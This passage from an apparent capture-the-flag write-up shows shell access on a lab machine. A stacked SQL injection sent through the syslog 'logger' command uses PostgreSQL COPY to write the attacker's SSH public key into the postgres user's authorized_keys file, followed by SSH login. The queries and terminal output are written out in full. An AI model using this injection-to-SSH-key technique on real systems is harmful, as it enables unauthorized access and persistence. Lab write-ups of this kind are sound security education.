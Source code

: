 

The escaped `$` worked!

### Shell

There are a few ways to go from this injection to a shell. I'll show
two.

#### Write an SSH Key

In `/etc/passwd`, the postgres user has a shell and a home directory:



    postgres:x:106:113:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash



And, the home dir has a `.ssh` directory:



    roy@zetta:/var/log/postgresql$ ls -la /var/lib/postgresql/
    total 24
    drwxr-xr-x  4 postgres postgres 4096 Sep  1 11:16 .
    drwxr-xr-x 27 root     root     4096 Aug 27 05:39 ..
    drwxr-xr-x  3 postgres postgres 4096 Jul 27 03:07 11
    lrwxrwxrwx  1 root     root        9 Jul 27 06:57 .bash_history -> /dev/null
    -rw-------  1 postgres postgres   32 Sep  1 11:16 .lesshst
    -rw-------  1 postgres postgres  744 Jul 27 07:01 .psql_history
    drwx------  2 postgres postgres 4096 Jul 27 06:40 .ssh



I can, with three queries to the database, write my public key file into
`.ssh/authorized_keys`, and then ssh into the box as postgres.

The three queries are:

-   `CREATE TABLE IF NOT EXISTS oxdf (mycol text);`
-   `INSERT INTO oxdf(mycol) VALUES (\$$ ssh-rsa AAAAB3NzaC...[snip]...YQC3rRDiG5P root@kali\$$);`
-   `COPY (SELECT * from oxdf) To \$$/var/lib/postgresql/.ssh/authorized_keys\$$;`

The first create a table. The next puts my key into it. The final one
writes that to a file. I can stack that all together and run:



    roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); CREATE TABLE IF NOT EXISTS aaa (mycol text); INSERT INTO aaa(mycol) VALUES (\$$ ssh-rsa AAAAB3NzaC...[snip]...YQC3rRDiG5P root@kali\$$); COPY (SELECT * from aaa) To \$$/var/lib/postgresql/.ssh/author
    ized_keys\$$;-- -"



Now I can ssh in as postgres:



    root@kali# ssh -i ~/id_rsa_generated postgres@10.10.10.156
    Linux zetta 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64
    Last login: Sun Sep  1 11:07:12 2019 from 10.10.14.5
    postgres@zetta:~$ 
